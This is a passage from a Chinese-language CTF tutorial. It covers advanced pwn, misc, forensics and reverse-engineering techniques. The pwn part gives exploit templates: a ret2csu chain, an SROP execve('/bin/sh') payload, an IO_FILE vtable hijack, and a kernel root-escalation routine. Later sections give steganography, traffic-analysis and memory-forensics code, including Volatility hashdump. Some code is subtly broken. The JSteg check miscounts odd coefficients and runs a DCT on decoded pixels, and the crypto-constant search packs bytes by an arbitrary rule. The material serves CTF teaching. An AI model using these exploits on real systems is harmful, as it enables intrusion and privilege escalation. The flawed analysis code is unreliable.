    # gadget2: mov rdx, r15; mov rsi, r14; mov edi, r13d; call [r12+rbx*8]
    call_csu = 0x400580
    
    payload = p64(pop_csu)
    payload += p64(0)        # rbx = 0
    payload += p64(1)        # rbp = 1 (使rbx+1==rbp)
    payload += p64(func_addr)  # r12 → 函数指针
    payload += p64(arg1)     # r13 → edi
    payload += p64(arg2)     # r14 → rsi
    payload += p64(arg3)     # r15 → rdx
    payload += p64(call_csu)
    payload += b'A' * 56     # 填充call_csu后的pop序列
    return payload

# ===== SROP（Sigreturn Oriented Programming）=====
def srop_shell(syscall_addr):
    """
    利用sigreturn系统调用一次性设置所有寄存器
    仅需一个syscall gadget即可完成exploit
    """
    frame = SigreturnFrame()
    frame.rax = 59          # execve系统调用号
    frame.rdi = 0x400000    # "/bin/sh"的地址（需要提前写入）
    frame.rsi = 0           # argv = NULL
    frame.rdx = 0           # envp = NULL
    frame.rip = syscall_addr
    frame.rsp = 0x1234      # 随意设置
    
    payload = b'A' * offset
    payload += p64(syscall_addr)  # 触发sigreturn
    payload += bytes(frame)
    return payload

# ===== File Stream利用 =====
def file_stream_attack():
    """
    利用FILE结构体的回调函数指针
    当堆利用受限时，通过覆写IO_FILE的虚表指针实现控制流劫持
    """
    # _IO_FILE的结构：
    # +0x00: _flags
    # +0x20: _IO_write_base
    # +0x28: _IO_write_ptr
    # +0xd8: _vtable (虚表指针，关键目标)
    
    # 伪造FILE结构体 + 虚表劫持
    fake_file = b'/bin/sh\x00'.ljust(0x20, b'\x00')
    fake_file += p64(0) * 2       # _IO_write_base, _IO_write_ptr
    fake_file += b'\x00' * 0x58   # 填充
    fake_file += p64(fake_file_addr + 0x38)  # _chain指针
    fake_file += b'\x00' * 0x20
    fake_file += p64(fake_vtable_addr)  # _vtable
    
    return fake_file
```

#### 8.4.3 内核漏洞利用基础

```python
from pwn import *

# ===== 内核提权模板 =====
def kernel_exploit():
    """
    Linux内核提权的标准流程
    适用于CTF中的kernel pwn题目
    """
    # 步骤1：保存用户态寄存器（用于返回用户态）
    save_status = """
        mov [rip + user_rax], rax
        mov [rip + user_rdi], rdi
        mov [rip + user_rsi], rsi
        mov [rip + user_rdx], rdx
        mov [rip + user_rcx], rcx
        mov [rip + user_rbx], rbx
        mov [rip + user_rbp], rbp
        mov [rip + user_rsp], rsp
        mov [rip + user_rflags], r11
        swapgs
    """
    
    # 步骤2：提权 — commit_creds(prepare_kernel_cred(0))
    escalate = """
        mov rdi, 0                  ; prepare_kernel_cred(NULL) → root cred
        call prepare_kernel_cred    ; 返回root的cred结构体
        mov rdi, rax                ; 参数：新cred结构体
        call commit_creds           ; 应用到当前进程
    """
    
    # 步骤3：返回用户态
    return_to_user = """
        swapgs
        iretq
    """
    
    # iretq需要的栈布局（从高地址到低地址）：
    # user_rip   → 返回地址
    # user_cs    → 代码段选择子
    # user_rflags → 标志寄存器
    # user_rsp   → 栈指针
    # user_ss    → 栈段选择子
    
    return escalate + return_to_user

# ===== 内核利用常用技巧 =====
# 1. commit_creds + prepare_kernel_cred(0) → 最常用的提权组合
# 2. 修改modprobe_path → 让内核执行恶意脚本
# 3. overwrite creds结构体 → 直接修改当前进程的uid/gid
# 4. abuse setxattr/userfaultfd → 内核堆喷/竞态条件利用
```

### 8.5 Misc方向高级技巧

#### 8.5.1 隐写术深入分析

隐写术不仅仅是`stegsolve`点几下，真正的高级分析需要理解数字图像的底层结构。

**隐写分析工具链：**



```python
from PIL import Image
import numpy as np
import struct

# ===== 多通道LSB提取 =====
def extract_lsb_advanced(image_path):
    """支持多种LSB模式的提取"""
    img = Image.open(image_path)
    pixels = np.array(img)
    
    results = {}
    
    # 模式1：R通道LSB
    lsb_r = pixels[:,:,0] & 1
    results['R_LSB'] = bits_to_text(lsb_r.flatten())
    
    # 模式2：RGB全通道LSB
    lsb_rgb = np.stack([
        pixels[:,:,0] & 1,
        pixels[:,:,1] & 1,
        pixels[:,:,2] & 1
    ], axis=-1).flatten()
    results['RGB_LSB'] = bits_to_text(lsb_rgb)
    
    # 模式3：按位平面分离分析
    for channel, name in [(0, 'R'), (1, 'G'), (2, 'B')]:
        for bit in range(8):
            plane = (pixels[:,:,channel] >> bit) & 1
            text = bits_to_text(plane.flatten())
            if is_printable(text[:100]):
                results[f'{name}_bit{bit}'] = text
    
    return results

def bits_to_text(bits):
    """将bit序列转换为文本"""
    chars = []
    for i in range(0, len(bits) - 7, 8):
        byte = bits[i:i+8]
        value = 0
        for b in byte:
            value = (value << 1) | int(b)
        if value == 0:
            break
        chars.append(chr(value))
    return ''.join(chars)

def is_printable(text):
    """判断文本是否为可打印字符"""
    printable = sum(1 for c in text if 32 <= ord(c) <= 126)
    return printable / max(len(text), 1) > 0.8

# ===== PNG文件结构分析 =====
def analyze_png_chunks(image_path):
    """逐块分析PNG文件结构，寻找隐藏数据"""
    with open(image_path, 'rb') as f:
        data = f.read()
    
    # PNG文件头
    assert data[:8] == b'\x89PNG\r\n\x1a\n', "Not a PNG file"
    
    offset = 8
    chunks = []
    while offset < len(data):
        length = struct.unpack('>I', data[offset:offset+4])[0]
        chunk_type = data[offset+4:offset+8].decode('ascii', errors='replace')
        chunk_data = data[offset+8:offset+8+length]
        crc = data[offset+8+length:offset+12+length]
        
        chunks.append({
            'type': chunk_type,
            'length': length,
            'data': chunk_data
        })
        
        # 异常块可能是隐藏数据
        if chunk_type not in ('IHDR', 'IDAT', 'IEND', 'PLTE', 'tEXt', 'zTXt', 'iTXt'):
            print(f"[!] Non-standard chunk: {chunk_type}, length={length}")
            if chunk_type in ('ftxt', 'st3d', 'at00', 'ex01'):  # 已知隐写用块
                print(f"    → Potentially hidden data found!")
        
        offset += 12 + length
    
    return chunks

# ===== JSteg/JPhide检测 =====
def detect_jsteg(image_path):
    """检测JSteg隐写痕迹"""
    # JSteg将秘密信息嵌入JPEG的DCT系数的LSB
    # 但跳过值为0和1的系数
    import cv2
    img = cv2.imread(image_path, cv2.IMREAD_GRAYSCALE)
    
    # 手动DCT分析
    rows, cols = img.shape
    dct_results = []
    for i in range(0, rows, 8):
        for j in range(0, cols, 8):
            block = img[i:i+8, j:j+8].astype(np.float32)
            dct_block = cv2.dct(block)
            # 检查中频系数的统计异常
            mid_freq = dct_block[2:6, 2:6].flatten()
            dct_results.append(mid_freq)
    
    all_coeffs = np.array(dct_results).flatten()
    # JSteg会导致偶数和奇数系数分布异常
    even_count = np.sum(all_coeffs % 2 == 0)
    odd_count = np.sum(all_coeffs % 2 != 1)
    ratio = even_count / (even_count + odd_count)
    
    return ratio  # 接近0.5为正常，显著偏离则可能有隐写
```

#### 8.5.2 高级流量分析

```python
from scapy.all import *
from collections import Counter, defaultdict

def advanced_pcap_analysis(pcap_file):
    """全面的pcap流量分析框架"""
    packets = rdpcap(pcap_file)
    
    results = {
        'stats': {},
        'suspicious': [],
        'extracted': []
    }
    
    # ===== 基础统计 =====
    proto_count = Counter()
    ip_count = Counter()
    
    for pkt in packets:
        if pkt.haslayer(IP):
            ip_count[pkt[IP].src] += 1
            ip_count[pkt[IP].dst] += 1
        
        if pkt.haslayer(TCP):
            proto_count['TCP'] += 1
        elif pkt.haslayer(UDP):
            proto_count['UDP'] += 1
        elif pkt.haslayer(ICMP):
            proto_count['ICMP'] += 1
    
    results['stats'] = dict(proto_count)
    
    # ===== DNS隧道检测 =====
    dns_queries = []
    for pkt in packets:
        if pkt.haslayer(DNS) and pkt[DNS].qr == 0:  # 查询包
            qname = pkt[DNS].qd.qname.decode()
            dns_queries.append(qname)
            
            # DNS隧道特征：子域名异常长、包含编码数据
            labels = qname.split('.')
            for label in labels[:-1]:  # 排除TLD
                if len(label) > 30:
                    results['suspicious'].append({
                        'type': 'DNS tunnel suspected',
                        'query': qname,
                        'reason': f'Label length {len(label)} exceeds normal'
                    })
                    
                    # 尝试解码子域名中的数据
                    import base64
                    try:
                        decoded = base64.b64decode(label + '==')
                        results['extracted'].append(('DNS', decoded))
                    except:
                        pass
    
    # ===== ICMP隧道检测 =====
    icmp_data = []
    for pkt in packets:
        if pkt.haslayer(ICMP) and pkt[ICMP].type == 8:  # Echo Request
            data = bytes(pkt[ICMP].payload)
            if len(data) > 48:  # ICMP正常payload很小
                icmp_data.append(data)
                results['suspicious'].append({
                    'type': 'ICMP tunnel suspected',
                    'size': len(data),
                    'preview': data[:100]
                })
    
    if icmp_data:
        combined = b''.join(icmp_data)
        results['extracted'].append(('ICMP', combined))
    
    # ===== HTTP请求还原 =====
    http_sessions = defaultdict(list)
    for pkt in packets:
        if pkt.haslayer(TCP) and pkt.haslayer(Raw):
            payload = pkt[Raw].load
            if b'HTTP' in payload[:20] or b'GET ' in payload[:5] or b'POST ' in payload[:6]:
                key = f"{pkt[IP].src}:{pkt[TCP].sport}-{pkt[IP].dst}:{pkt[TCP].dport}"
                http_sessions[key].append(payload)
    
    # ===== 异常特征检测 =====
    # 1. 端口扫描检测
    SYN_count = Counter()
    for pkt in packets:
        if pkt.haslayer(TCP) and pkt[TCP].flags == 'S':
            SYN_count[pkt[IP].dst] += 1
    
    for ip, count in SYN_count.most_common(5):
        if count > 100:
            results['suspicious'].append({
                'type': 'Potential port scan',
                'source': ip,
                'SYN_count': count
            })
    
    return results

def extract_files_from_pcap(pcap_file):
    """从pcap中提取传输的文件"""
    packets = rdpcap(pcap_file)
    
    http_data = {}
    for pkt in packets:
        if pkt.haslayer(TCP) and pkt.haslayer(Raw):
            payload = pkt[Raw].load
            seq = pkt[TCP].seq
            key = (pkt[IP].src, pkt[IP].dst, pkt[TCP].sport, pkt[TCP].dport)
            
            if key not in http_data:
                http_data[key] = {}
            http_data[key][seq] = payload
    
    files = []
    for session, seq_data in http_data.items():
        sorted_pkts = sorted(seq_data.items())
        combined = b''.join(data for _, data in sorted_pkts)
        
        # 检查是否包含文件头
        if b'\xff\xd8\xff' in combined[:10]:  # JPEG
            files.append(('JPEG', combined[combined.index(b'\xff\xd8\xff'):]))
        elif combined[:4] == b'\x89PNG':  # PNG
            files.append(('PNG', combined))
        elif b'PK' in combined[:2]:  # ZIP
            files.append(('ZIP', combined))
        elif combined[:4] == b'%PDF':  # PDF
            files.append(('PDF', combined))
    
    return files
```

#### 8.5.3 内存取证基础

```python
# 使用Volatility进行内存取证
# volatility是最强大的内存取证框架

# ===== 常用Volatility命令 =====
"""
# 获取内存镜像的基本信息
volatility -f memory.dmp imageinfo

# 查看进程列表
volatility -f memory.dmp --profile=Win7SP1x64 pslist
volatility -f memory.dmp --profile=Win7SP1x64 pstree

# 查看网络连接
volatility -f memory.dmp --profile=Win7SP1x64 netscan

# 提取命令行历史
volatility -f memory.dmp --profile=Win7SP1x64 cmdline
volatility -f memory.dmp --profile=Win7SP1x64 cmdscan

# 提取文件
volatility -f memory.dmp --profile=Win7SP1x64 filescan
volatility -f memory.dmp --profile=Win7SP1x64 dumpfiles -Q <phys_addr> -D output/

# 提取浏览器历史
volatility -f memory.dmp --profile=Win7SP1x64 iehistory

# 检查注册表
volatility -f memory.dmp --profile=Win7SP1x64 hivelist
volatility -f memory.dmp --profile=Win7SP1x64 hashdump

# 查看内存中的字符串（搜索flag）
volatility -f memory.dmp --profile=Win7SP1x64 memdump -p <PID> -D output/
# 然后用strings和grep搜索
"""

# ===== Python自动化内存分析 =====
import subprocess
import re

def extract_flags_from_memory(mem_file, profile="Win7SP1x64"):
    """自动从内存镜像中提取可能的flag"""
    flags = []
    
    # 使用strings + grep搜索
    result = subprocess.run(
        ['strings', mem_file],
        capture_output=True, text=True
    )
    
    # 搜索flag格式
    patterns = [
        r'flag\{[^}]+\}',
        r'FLAG\{[^}]+\}',
        r'CTF\{[^}]+\}',
        r'[a-zA-Z0-9]{32}',  # MD5
        r'[a-zA-Z0-9]{40}',  # SHA1
        r'[a-zA-Z0-9]{64}',  # SHA256
    ]
    
    for line in result.stdout.split('\n'):
        for pattern in patterns:
            matches = re.findall(pattern, line)
            flags.extend(matches)
    
    return list(set(flags))
```

### 8.6 Reverse方向高级技巧

#### 8.6.1 反混淆技术

```python
# ===== IDAPython自动化反混淆 =====
# 在IDA Pro中使用脚本自动化分析

def remove_junk_code(func_ea):
    """去除编译器插入的垃圾指令"""
    # 常见垃圾代码模式：
    # 1. 无意义的算术运算：add eax, 0; xor ecx, ecx
    # 2. 不可达代码：jmp后面的指令
    # 3. 控制流平坦化：大量case分支做无意义操作
    
    # 使用Hex-Rays反编译器
    cfunc = idaapi.decompile(func_ea)
    if cfunc:
        print(cfunc)
        # 反编译后的伪代码更容易分析

def find_crypto_constants(binary_path):
    """识别加密算法常量"""
    # 常见加密算法的魔数
    crypto_signatures = {
        'MD5': [0x67452301, 0xefcdab89, 0x98badcfe, 0x10325476],
        'SHA1': [0x67452301, 0xEFCDAB89, 0x98BADCFE, 0x10325476, 0xC3D2E1F0],
        'SHA256': [
            0x6a09e667, 0xbb67ae85, 0x3c6ef372, 0xa54ff53a,
            0x510e527f, 0x9b05688c, 0x1f83d9ab, 0x5be0cd19
        ],
        'AES_SBOX': [
            0x63, 0x7c, 0x77, 0x7b, 0xf2, 0x6b, 0x6f, 0xc5,
            0x30, 0x01, 0x67, 0x2b, 0xfe, 0xd7, 0xab, 0x76
        ],
        'ChaCha20': [
            0x61707865, 0x3320646e, 0x79622d32, 0x6b206574
        ],
        'SM4_SBOX': [
            0xd6, 0x90, 0xe9, 0xfe, 0xcc, 0xe1, 0x3d, 0xb7
        ]
    }
    
    with open(binary_path, 'rb') as f:
        data = f.read()
    
    found = []
    for algo, constants in crypto_signatures.items():
        # 搜索第一个常量
        import struct
        for const in constants[:1]:  # 只搜第一个作为种子
            raw = struct.pack('<I', const) if const < 256 else struct.pack('>I', const)
            pos = data.find(raw)
            if pos != -1:
                found.append((algo, pos))
    
    return found
```

#### 8.6.2 虚拟化/VM保护识别

```text
# CTF中常见的VM保护类型及识别方法

# ===== 自定义VM =====
# 特征：存在大量的switch-case分发、函数指针表
# 分析步骤：
# 1. 找到主分发循环（通常是一个大的while(1) + switch）
# 2. 识别操作码（opcode）和操作数格式
# 3. 构建opcode表，理解每条指令的功能
# 4. 反汇编VM字节码

# ===== 识别特征 =====
# - 大量case标签（30-200个）→ 自定义VM
# - 函数指针数组 → 跳转表VM
# - 基于栈的VM → 类似JVM/Python虚拟机
# - 基于寄存器的VM → 类似CPU模拟器

# ===== 常见VM框架 =====
# - Mocha VM（Android加固）
# - Dex2c（Dex转C）
# - Obfuscator-LLVM
# - VMProtect / Themida（商业加壳）
```

### 8.7 综合解题工具箱

以下是CTF比赛中最常用的一站式工具和速查资源：

| 工具 | 用途 | 安装/获取 |
|------|------|-----------|
| CyberChef | 万能编解码、加密转换 | https://gchq.github.io/CyberChef/ |
| RsaCtfTool | RSA自动化攻击 | github.com/Ganapati/RsaCtfTool |
| John the Ripper | 密码/哈希破解 | john the ripper |
| hashcat | GPU加速密码破解 | hashcat.net |
| pwntools | Pwn exploit开发框架 | pip install pwntools |
| GDB + pwndbg | 调试器 + 堆可视化 | github.com/pwndbg/pwndbg |
| Ghidra | 开源反编译工具 | ghidra-sre.org |
| IDA Pro | 商业逆向分析工具 | hex-rays.com |
| Scapy | 网络流量分析 | scapy.net |
| Volatility | 内存取证 | github.com/volatilityfoundation |
| Binwalk | 固件/文件提取 | github.com/ReFirmLabs/binwalk |
| StegSolve | 图片隐写分析 | github.com/eugenekolo/stegsolve |
| SecLists | 清单字典集 | github.com/danielmiessler/SecLists |
| Pwntools CTF | CTF常用脚本集 | github.com/Gallopsled/pwntools |

### 8.8 本节小结



高级CTF解题不是单纯的记忆和复制，而是对计算机系统深层原理的理解和灵活运用。每个方向的技术都不是孤立的——反序列化需要理解语言的内存模型，堆利用需要理解操作系统内存管理，流量分析需要理解网络协议栈。持续练习和深度思考，是从CTF新手成长为高手的必经之路。
